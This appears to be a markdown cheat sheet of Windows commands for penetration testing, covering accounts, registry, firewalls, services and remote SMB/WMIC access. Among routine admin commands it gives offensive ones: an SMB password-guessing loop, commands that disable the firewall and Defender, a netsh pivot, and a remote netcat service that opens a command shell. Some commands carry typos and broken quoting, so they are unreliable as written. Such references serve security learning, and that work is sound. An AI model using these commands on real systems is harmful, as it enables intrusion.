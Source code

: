 ```yaml
---
title: Windows Commands
category: Misc
order: 4
---
```


>**Windows Commands**

Category | Topic | Command
Accounts and Privileges | Lauch with Admin Privs | ctrl+shift+enter 
Accounts and Privileges | SID | S-[revision level]-[authority level]-[domain/computer]-RID
Accounts and Privileges | Admin RID | 500
Accounts and Privileges | Guest RID | 501 
Accounts and Privileges | Users RID | 1001 and up
Accounts and Privileges | Add or Remove a User | net user [username] [password] /add or /del <br> termservice, telnet
Accounts and Privileges | Add or Remove user to a group | net localgroup [group] [username] /add or /del <br> Examples: <br> Remote Desktop Users, TelnetClients, Administrators
Accounts and Privileges | List Local Users | net user
Accounts and Privileges | List Groups | net localgroup
Accounts and Privileges | List Administrators | net localgroup administrators 
Accounts and Privileges | List Account Policy | net accounts or net accounts /domain
Accounts and Privileges | Password Guess | for /f %i in 9password.lst) do @echo %i & @net use \\[tartet_IP_addr] %i /u:[UserName] 2>nul && echo [UserName]: %i >> success.txt
Accounts and Privileges | Run Progarm as another user | runas /u:fred "cmd /c echo Hello!", runas /smartcard "cmd /c echo Hello!"
AntiVirus | Turn off Windows Defender | control /name Microsoft.WindowsDefender
AntiVirus | Turn off Smart Screen | control /name Microsoft.ActionCenter
Inventory, File Search, and Counting | Count Lines | <code> type "file" | find /c /v "" </code>
Inventory, File Search, and Counting | Inventory Software | "dir /s ""c:\Program Files"" > inventory.txt <br> dir /s ""c:\Program Files (x86)"" >> inventory.txt" 
Inventory, File Search, and Counting | Display File Contents | type [file], type *.[ext], type [file1] [file2]
Inventory, File Search, and Counting | Search in FIle | <code> type [file] | find /i "[string]", type [file] | findstr [regex] </code>
Inventory, File Search, and Counting | See Environment Variables | set, set [variable_name] <br> Example: username, path
Inventory, File Search, and Counting | Search for File | dir /b /s [directory]\[file]  (use ^ to escape spaces) <br> Example: dir /b /s %systemroot%\hosts
Inventory, File Search, and Counting | Read Registry Key | reg query [keyName] 
Inventory, File Search, and Counting | Change Registry Key | reg add [KeyName] /v [ValueName] /t [type] /d [data]
Inventory, File Search, and Counting | Export Registry Keys | reg export [keyName] [filename.reg] 
Inventory, File Search, and Counting | Import Registry Keys | reg import [filename.reg]
Inventory, File Search, and Counting | Find a String  | find "[string]", findstr [regex] 

Network and Firewalls | Network Activity | <code> netstat -na | find ":[port]"</code> 
Network and Firewalls | DNS cahce | ipconfig /displaydns
Network and Firewalls | Turn firewall off | netsh advfirewall set allprofiles state off
Network and Firewalls | Firewall Rule | netsh advfirewall firewall add rule name="[name]" dir=in action=allow remoteip=[yourIPaddress] protocol=TCP localport=[port number] <br> Example: 3389, 23
Network and Firewalls | Delete Firewall Rule | netsh advfirewall firewall del rule name="[name]" 
Network and Firewalls | Disable Firewall | netsh advfirewall set allprofiles state off 
Network and Firewalls | Firewall Rule Registry | reg add HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile\GloballyOpenPorts\List /V 2000:TCP /T REG_SZ /F /D "2000:TCP:*:Enabled" 
Network and Firewalls | View Firewall Configuration | netsh advfirewall show allprofiles 
Network and Firewalls | Ping Sweep | <code> for /L %i in (1, 1, 255) do @ping -n 1 192.168.2.%i | find "TTL" </code>
Network and Firewalls | DNS Lookup | for /L %i in (1, 1, 255) do @echo 10.10.10.%i & nslookup 10.10.10.%i  2>nul | find "Name"
Network and Firewalls | Netsh pivot | netsh interface portproxy add v4tov4 listenport=<LPORT> listenaddress=0.0.0.0 connectport=[RPORT] connectaddress=[RHOST] 

Process and Service | Install a service | "pkgmgr /iu:""[servicename]"" <br> dism /online /Enable-Features /FeatureName:TelnetServer" | 
Process and Service | List Running Services | sc query | 
Process and Service | List All Services | sc query state= all | 
Process and Service | List Remote Services  | sc \\[targetIP] query | 
Process and Service | Check status of service | sc query [service name] | 
Process and Service | Start/Stop a service | sc start/stop [service name] | 
Process and Service | Change Startup type of service | sc config [servicename] start= demand | termservice, telnet
Process and Service | Delete Service | sc delete [service name] | 
Process and Service | List Processes | tasklist | 
Process and Service | Kill a Process | taskkill /PID [process_ID] | 
Remote Access, SMB, and WMIC | See Current Privileges | whoami | 
Remote Access, SMB, and WMIC | Windows null session | net use \\targetip "" /u:"" | 
Remote Access, SMB, and WMIC | Establish an SMB session | net use \\[targetIP] [password] /u:[user] | 
Remote Access, SMB, and WMIC | Mount a Share on Target | "net use * \\[targetIP]\[share] [password] /u:[user] <br> net use * \\[targetIP]\[share] [password] /u:[MachineName_or_Domain]\[user]" | 
Remote Access, SMB, and WMIC | Dropping SMB Session | "net use \\[targetIP] /del <br> net use * /del" | 

Remote Access, SMB, and WMIC | Run a Remote Command | sc \\[targetIP] create netcat binpath= "cmd.exe /k c:\tools\nc.exe -L -p cmd.exe | 
Remote Access, SMB, and WMIC | Turn on Remote Desktop / terminal services | reg add "hklm\system\currentcontrolset\control\terminal server" /v fdenysconnetions /t reg_dword /d 0 | 
Remote Access, SMB, and WMIC | Remote Registry  | Put \\[MachineName] before [KeyName] | 
Remote Access, SMB, and WMIC | WMIC Invoke Porgram | wmic /node:[targetIP] /user:[admin_user] /password:[password] process call create [command] | 
Remote Access, SMB, and WMIC | WMIC on Multiple Machines | /node:@[filename] - run a command on multiple machines listed in a file | 
Remote Access, SMB, and WMIC | WMIC Service Query | wmic services where (displayname like "%[whatever]%") get name | 
Remote Access, SMB, and WMIC | WMIC List Processes | wmic /node:[targetIP] /user:[admin_user] /password:[password] process list brief | 
Remote Access, SMB, and WMIC | WMIC Kill Processes | wmic /node:[targetIP] /user:[admin_user] /password:[password] process where name="[name]" delete or processID="[PID]" delete | 
Remote Access, SMB, and WMIC | WMIC Monitor Process | wmic process where name="[name]" list brief /every:1 | "nc.exe"
Remote Access, SMB, and WMIC | at (windows 7 and lower)(all commands at SYSTEM) | "net use \\[targetIP] [password] /u:[admin_user] <br> sc \\[targetIP] query schedule (*make sure it is running*) <br> *sc \\[targetIP] start schedule* <br> at [\\targetIP] [HH:MM] [A|P] [command] <br> at \\[machine] [time] cmd /c ""[command]"" <br> at \\[targetIP} (*check status*)" | 
Remote Access, SMB, and WMIC | schtasksStart TIme - HH:MM:SSFrequency: MINUTE, HOURLY, DAILY, ONCE, ONSTART, ONLOGON, ONIDLE | "> net use \\[targetIP] [password] /u:[admin_user]
> sc \\[targetIP] query schedule (*make sure it is running*)
> *sc \\[targetIP] start schedule*
> schtasks /creat /tn [taskname] /s [targetIP] /u [user] /p [password] /sc [frequency]  /st [starttime] /sd [startdate] /tr [command]
> schtasks /query /s [targetIP]
>" | 
Remote Access, SMB, and WMIC | Simple Windows IIS Express Server | C:\Program Files (x86)\IIS Express\iisexpress.exe" /path:C:\tools /port:8001 | 
Scripting and Shell | Navigate History | F7 | 
Scripting and Shell | For Loops | "for /L %i in ([start], [step], [stop]) do [command]) 
*note: step of zero runs forever" | for /L %i in (1, 1, 255) do echo %i
Scripting and Shell | For Loops Iterate | for /F ["options"] %i in ([stuff]) do [command] | 
Scripting and Shell | Pause/Break | timeout /t 4 /nobreak | 
Scripting and Shell | Turn off command echo | @ | for /L %i in (1, 1, 255) do @echo %i
Scripting and Shell | Multiple Commands | & | for /L %i in (1, 1, 255) do @echo %i & timeout /t 4 /nobreak
Scripting and Shell | Multiple Successful Commands | && | 
Scripting and Shell | Throw Away Output | >nul | for /L %i in (1, 1, 255) do @echo %i & timeout /t 4 /nobreak > null
Scripting and Shell | Print Blank Line or Beap | echo., echo CTRL-G | 
Scripting and Shell | CR/LF (0d0a) | Windows use CR/LF as EOF characters. | 


